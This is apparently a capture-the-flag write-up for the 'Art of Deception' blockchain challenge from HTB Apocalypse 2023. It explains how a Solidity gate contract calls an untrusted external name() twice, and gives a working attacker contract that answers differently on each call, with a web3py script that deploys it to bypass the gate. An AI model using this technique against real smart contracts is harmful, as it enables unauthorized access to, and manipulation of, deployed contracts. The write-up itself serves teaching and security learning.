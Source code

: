 ```yaml
---
title: "Write-up of The Art of Deception (Blockchain) CTF HTB Apocalypse 2023"
summary: "Introduction to Web3 security: an explanation of the logic put behind flagging a Web3 challenge, written in web3py and solidity."
date: 2023-03-28T15:08:45-02:00
lastUpdate: 2023-03-28T15:08:45-02:00
tags: ["web3","solidity","write-up","Supwn"]
author: Turtyo
draft: false
---
```


When we first start the challenge, we have two URLs as it was common on the blockchain part of this CTF:
```
68.183.37.122:31651
68.183.37.122:32646 
```

The first one is an **RPC** URL, we will use it to connect to the blockchain.   
The second is a **TCP** port, we can connect to it using `nc 68.183.37.122:32646`.

This allows us to retrieve connection information that we will need for the challenge:
```
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xa22d64ea53f80c513cf9223d4d968d96637819568b2a81f33d070e4818a1c382
Address         :  0x23b6462992d4131BE158f20B6aEEab2Fd6887b3B
Target contract :  0xDa2FE820ae9135E877ac01aA657743B7c75Fe4bb
Setup contract  :  0x1ba407613f8d2D40b70b70d312f05F6f2628e58F
```

Of course the private key is a false one, you won't win the big prize today x)   
And the `Get flag` tells us the challenge isn't solved yet.

We also have some files that we downloaded at the start of the challenge, let's check what's inside of them:   
`Setup.sol`
```rust
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Setup {
    HighSecurityGate public immutable TARGET;

    constructor() {
        TARGET = new HighSecurityGate();
    }

    function isSolved() public view returns (bool) {
        return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
    }
}
```

We can for now see with the function `isSolved` that we need to verify `TARGET.lastEntrant() == "Pandora"`

`FortifiedPerimeter.sol`
```rust
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

contract HighSecurityGate {
    
    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }

    function strcmp(string memory _str1, string memory _str2) public pure returns (bool){
        return keccak256(abi.encodePacked(_str1)) == keccak256(abi.encodePacked(_str2)); 
    }
}
```

Here we see multiple interesting things. First, we understand what was this "lastEntrant" thing, we have a list `authorized = ["Orion", "Nova", "Eclipse"]`. To modify the variable `lastEntrant` we need to use the function `enter` which will change the value of `lastEntrant` to match with the name of the person using the function (the entrant), after checking that the name of this entrant is indeed in `authorized`.

This `name` function is defined as an `external` function in the `Entrant` interface. In Solidity, the `external` keyword means that the function is called from outside the contract. To read more about function types, you can check the doc [here](https://docs.soliditylang.org/en/v0.8.19/types.html#function-types). Here, it is left to the person interacting with the `enter` function to implement it. In itself, this is not a vulnerability.

But the vulnerability comes in the following two lines:
```rust
require(_isAuthorized(_entrant.name()), "Intruder detected");
lastEntrant = _entrant.name();
```

The interesting thing to note here is that the `name` function is called twice, first to check that it is an authorized name, and a second time to change the value of `lastEntrant`. And **we** are the ones that implement the `name` function ! The idea of how to flag the challenge is the following:  

***"What if we gave a name in the authorized list the first time the function is called and the name Pandora the second time ?"***

I started by writing a solidity file for this (`fake_entrant.sol`)
```rust
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

interface HighSecurityGate {
    function enter() external;
}

contract FakeEntrant is Entrant {
    bool private _hasBeenCalled = false;
    HighSecurityGate _gate;
    
    constructor(address gateAddress){
        _gate = HighSecurityGate(gateAddress);
    }

    function callEnter() public {
        _gate.enter();
    }

    function name() external override returns (string memory) {
        if (!_hasBeenCalled) {
            _hasBeenCalled = true;
            return "Orion";
        } else {
            return "Pandora";
        }
    }

}
```
The `name` function does exactly what was described above. The `callEnter` function is here to be able to ask for the `enter` function on behalf of this contract.
We can't just call the `enter` function ourselves, because we don't have the `name` function implemented.   
So instead of doing this: `us -> enter`   
We do: &emsp; &emsp; &emsp; &emsp; &emsp; &emsp; `us -> callEnter -> fake_entrant.sol -> enter`   
The `fake_entrant.sol` acts as a middle man for us.   

And here is the `web3py` code to make all of this work (`sneaking_in.py`):
```python
from web3 import Web3
from abi import *
import solcx

url = 'http://68.183.37.122:31651'
# nc 68.183.37.122 32646 

private_key     =  "0xa22d64ea53f80c513cf9223d4d968d96637819568b2a81f33d070e4818a1c382" # this is a false one btw
address         =  "0x23b6462992d4131BE158f20B6aEEab2Fd6887b3B"
target_contract =  "0xDa2FE820ae9135E877ac01aA657743B7c75Fe4bb"
setup_contract  =  "0x1ba407613f8d2D40b70b70d312f05F6f2628e58F"

w3 = Web3(Web3.HTTPProvider(url))
print('[+] Connection successful' if w3.is_connected() else '[-] Connection failed')

contract_fortified_perimeter = w3.eth.contract(target_contract, abi = abi_fortified_perimeter)
contract_setup = w3.eth.contract(setup_contract, abi = abi_setup)

# Compile the contract
comp = solcx.compile_files("./fake_entrant.sol", output_values=["abi", "bin"])['fake_entrant.sol:FakeEntrant']

# Deploy the contract
contract_fake_entrant = w3.eth.contract(abi=comp['abi'], bytecode=comp['bin'])
tx_hash = contract_fake_entrant.constructor(target_contract).transact()
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
contract_fake_entrant_address = tx_receipt.contractAddress
new_contract_fake_entrant = w3.eth.contract(abi=comp['abi'],address=tx_receipt.contractAddress)

# print(f'Receipt : {tx_receipt}')
print(f'Contract address : {contract_fake_entrant_address}')

print("Calling the enter function")
new_contract_fake_entrant.functions.callEnter().transact()

print(f'lastEntrant = {contract_fortified_perimeter.functions.lastEntrant().call()}')
print(f'isSolved = {contract_setup.functions.isSolved().call()}')

# goal is to make last entrant as "Pandora"
```
After that we just need to `nc 68.183.37.122:32646` and get the flag !

Few things to note here:
- I used [__Remix__](https://remix.ethereum.org/) (an online tool) to compile the `FortifiedPerimeter.sol` and `Setup.sol` files in order to get their ABI (that's basically a list of the functions and attributes of the contracts in the file)
- [solcx](https://pypi.org/project/py-solc-x/) is a python interface to use the [solc compiler](https://docs.soliditylang.org/en/latest/installing-solidity.html#building-from-source)
- I am still unsure as to why I had to recreate the contract using the address of the contract. I thought it would already be in the blockchain when I used the constructor, but it seems that the local instance is separated from the online instance of the contract.

Also if you just started working with web3 (as I did before this CTF), the difference between `call` and `transact` functions is that `call` is a read only function (meaning you look at the state of what you are calling) whereas `transact` is used to make a change.

I hope this WU was clear, thank you for reading through it.

Turtyo for the Supwn team
